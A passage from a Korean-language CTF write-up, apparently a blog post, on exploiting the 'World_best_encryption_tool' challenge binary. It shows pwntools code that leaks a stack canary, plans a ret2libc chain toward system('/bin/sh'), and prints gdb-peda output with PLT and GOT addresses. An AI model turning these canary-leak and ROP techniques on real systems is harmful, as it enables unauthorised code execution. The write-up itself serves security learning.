 p=process('World_best_encryption_tool')
#p=remote('ctf.j0n9hyun.xyz',3027)

p.recvline()

p.sendline('A'*57)

p.recvline()

p.recv(0x39)
canary=u64(p.recv(7).rjust(8,'\x00'))

p.recvuntil('(Yes/No)\n')
p.sendline('Yes')

log.info('canary is '+str(hex(canary)))

payload='A'*0x38
payload+=p64(canary)

p.recvline()

p.sendline(payload)

p.interactive()
</pre>

다음과 같이 payload를 보내면 canary값은 leak이 가능하면서, stack smashing 오류 없이 프로그램이 종료된다.

이후는 ROP와 동일하다.

---

익스시나리오를 다음과 같이 짜보겠다.

(1) `puts()`로 `puts()`의 주소를 출력한다. <br>
(2) (1)의 결과로 얻은 `puts()`의 주소를 통해서 `system()`의 주소와 "/bin/sh"의 주소를 구한다. <br>
(3) system("/bin/sh")를 실행시킨다.

(2)에서 계산하는 과정이 필요하므로 (1)이후에는 다시 `main()`으로 ret하는 과정이 필요하다.

이를 위해서는 다음과 같은 정보들이 필요하다.

**printf\_plt <br>
printf\_got <br>
printf\_offset <br>
system\_offset <br>
binsh\_offset <br>
main <br>
pop\_rdi\_ret**

offset값은 libc마다 다르므로 함수 주소를 leak을 우선 하고 해당 주소의 하위 3글자를 이용해 인터넷에서 찾도록 하겠다.

우선 libc_base를 leak하는 과정까지의 정보들과 코드는 다음과 같다.

<pre>
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0x400600 <printf@plt>
gdb-peda$ x/i 0x400600
   0x400600 <printf@plt>:	
    jmp    QWORD PTR [rip+0x200a2a]        # 0x601030
gdb-peda$ p main
$2 = {<text variable, no debug info>} 0x400727 < main>
</pre>
